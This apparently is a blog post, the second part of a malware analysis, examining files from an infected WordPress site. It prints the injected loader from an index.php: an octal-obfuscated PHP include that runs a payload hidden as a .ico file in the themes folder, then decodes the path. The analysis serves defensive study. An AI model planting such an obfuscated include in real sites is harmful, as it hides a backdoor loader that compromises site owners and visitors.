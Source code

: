 ```yaml
---
date: 2018-11-27T08:08:04Z
title: "PHP Malware Examination Part 2"
date: 2018-11-27T21:56:04Z
categories: ["articles"]
tags: ["PHP", "Malware", "Analysis", "timw"]
url: /2018/11/27/PHP-Malware-Examination-part-2
---
```


Presented by [Tim](authors/timwilkes)

[Follow me on Twitter](https://twitter.com/timmehwimmy)

Following on from the malware, I investigated earlier in the month, my friend gave me further files to continue working out what was the function of the malware. [See part 1 here.][c1405681]. All analysis was performed on a virtual machine and only details which could have identified the victim have been removed.

[c1405681]: /2018/11/07/PHP-Malware-Examination/ "PHP Malware Examination"

# What I was given

The first think he pointed out was that there was over 50MB of the infection. Most of it seemed to be in a directory called "cache". The main extra files he gave me were:

- an index page
- a html file
- a list file
- a file called fbxutv.php
- a folder called cache, with lots of files in it.

Starting with the index file, I found a familar sight:

```php
<?php

/*f3e7f*/

@include "\057home\057redac\164ed/\160ubli\143_htm\154/wp-\143onte\156t/th\145mes/\0560280\0610cf.\151co";

/*f3e7f*/

```

Running the command "php -w index.php > index2.php" cleared up the comments, which didn't help that much this time. Looking at the string, I decided to change the include to an echo statement to show what was being printed out. Low and behold, the included string was the original malware.

```php
/home/redacted/public_html/wp-content/themes/.028010cf.ico
```

So that answered the first question I had about the original malware piece: if it was hidden, and a ico file, how was it being run.
